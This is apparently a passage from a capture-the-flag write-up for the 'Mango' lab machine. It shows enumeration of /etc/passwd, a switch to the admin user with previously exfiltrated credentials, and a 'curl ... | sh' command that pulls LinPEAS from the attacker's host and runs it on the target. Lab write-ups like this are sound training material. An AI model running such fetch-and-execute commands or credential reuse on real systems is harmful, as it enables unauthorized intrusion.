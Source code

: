 # Lateral Movement

There is another user called *admin*.

```bash
mango@mango:~$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
mango:x:1000:1000:mango:/home/mango:/bin/bash
admin:x:4000000000:1001:,,,:/home/admin/:/bin/sh
```

Successfully moved to admin with the exfiltrated credentials.

```bash
mango@mango:~$ su - admin
```

<img src="/assets/img/mango-updated/image 12.png" alt="image 12.png" style="width:800px;">

Now, the user’s flag is readable. Good job!

<img src="/assets/img/mango-updated/image 13.png" alt="image 13.png" style="width:800px;">

# PrivEsc

Executed [LinPEAS](https://github.com/peass-ng/PEASS-ng/releases/download/20240804-31b931f7/linpeas.sh) on the target. Discovered potential ways to escalate privileges.

```bash
admin@mango:/home/admin$ curl 10.10.14.23:8000/linpeas.sh | sh
```

<img src="/assets/img/mango-updated/image 14.png" alt="image 14.png" style="width:800px;">
